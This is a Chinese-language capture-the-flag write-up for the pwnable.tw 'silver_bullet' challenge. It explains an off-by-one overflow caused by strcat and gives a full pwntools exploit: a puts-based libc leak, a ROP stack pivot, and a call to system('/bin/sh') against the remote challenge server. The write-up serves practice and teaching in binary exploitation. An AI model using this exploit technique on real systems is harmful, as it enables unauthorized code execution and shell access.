

## **Wp for silver_bullet**
+ IDA32打开silver_bullet，逆向，生成伪C代码
+ 分析代码知，该程序存在列表，通过输入，执行不同函数
    
    
    
+ 通过分析代码知，这是一个简单的游戏，以缓冲区中所存的字符串长度作为power，攻击wolf，当wolf的HP小于等于0时，游戏获胜，主函数返回。
+ 缓冲区中所存字符串长度，一般为用户输入字符串长度，用户可输入最大字符串长度为48
+ 该题需要通过溢出，使得游戏获胜，并在主函数返回时，使用栈溢出，获得shell
+ 通过分析和查找资料，strcat函数在执行结束后会在结尾添加0字符，则在该程序中产生一个字符的溢出
+ 该溢出刚好覆盖掉原来储存的字符串长度
+ 所以在create_bulle与第一次power_up函数中，所输入的字符串总长为48，便可第二次调用power_up函数，造成更多字节的栈溢出
+ 为使第二次可输入字节达到最大，creat_bullet时输入47字节的字符，power_up时输入1字节，以获得47-7字节的利用空间


+ 由于程序内没有system函数，需要通过其他函数泄露libc地址，这里我使用puts函数
+ 使用pwntools生成rop链
+ +  调用puts函数，输出got.puts的值，用于计算system函数地址
  +  使用程序中read_input函数，将通过获取泄露的system地址产生的进一步payload入数据段，使用pwntools的rop中migrate方法，以及leave;ret使esp转至新地址
  +  构造过程如下：  

```python
elf=ELF('../silver/silver_bullet')
rop=ROP('../silver/silver_bullet')
libc=ELF('../silver/libc_32.so.6')

puts_got=elf.got['puts']

rop.raw('\x01\xff\xff\xff')
rop.raw(0x804B410)
rop.puts(int(hex(puts_got)[2:],16))
rop.call('read_input',(0x0804B410,0x01010101))
rop.migrate(0x804B410)
```

+ 获得rop链如下

    
+ + 根据获得的system地址，构造新rop链，执行system("/bin/sh")
  + 代码如下：

```python
puts_addr=u32(p.recv()[0:4])
system=libc.symbols['system']-libc.symbols['puts']+puts_addr

rop=ROP('../silver/silver_bullet')
rop.call(system,(0x0804B41c,))
rop.raw('/bin/sh\x00')
```
+ 获得rop链如下

    
### 最终代码及结果
+ 代码

```python
from pwn import *
p=remote("chall.pwnable.tw",10103)
elf=ELF('../silver/silver_bullet')
rop=ROP('../silver/silver_bullet')
libc=ELF('../silver/libc_32.so.6')

puts_got=elf.got['puts']

rop.raw('\x01\xff\xff\xff')
rop.raw(0x804B410)
rop.puts(int(hex(puts_got)[2:],16))
rop.call('read_input',(0x0804B410,0x01010101))
rop.migrate(0x804B410)

print rop.dump()
print hex(len(rop.chain()))
result=''
for i in str(rop):
    result+='0'*(2-len(hex(ord(i))[2:]))+hex(ord(i))[2:]
print result
payload=str(rop)[1:]
print hex(len(payload))
result=''
for i in payload:
    result+='0'*(2-len(hex(ord(i))[2:]))+hex(ord(i))[2:]
print result
p.recvuntil('Your choice :')

p.sendline("1")
p.recvuntil('Give me your description of bullet :')

p.sendline('A'*0x2F)
p.recvuntil('Your choice :')

p.sendline("2")
p.recvuntil('Give me your another description of bullet :')

p.sendline("A")
p.recvuntil('Your choice :')

p.sendline("2")
p.recvuntil('Give me your another description of bullet :')

p.sendline(payload)
p.recvuntil('Your choice :')

p.sendline("3")
p.recvuntil("Oh ! You win !!\n")
puts_addr=u32(p.recv()[0:4])
system=libc.symbols['system']-libc.symbols['puts']+puts_addr

rop=ROP('../silver/silver_bullet')
rop.call(system,(0x0804B41c,))
rop.raw('/bin/sh\x00')
print rop.dump()
p.sendline(str(rop))
p.interactive("\nshell# ")
```
+ 结果

     
### 返回
+ [README.md](../README.md)
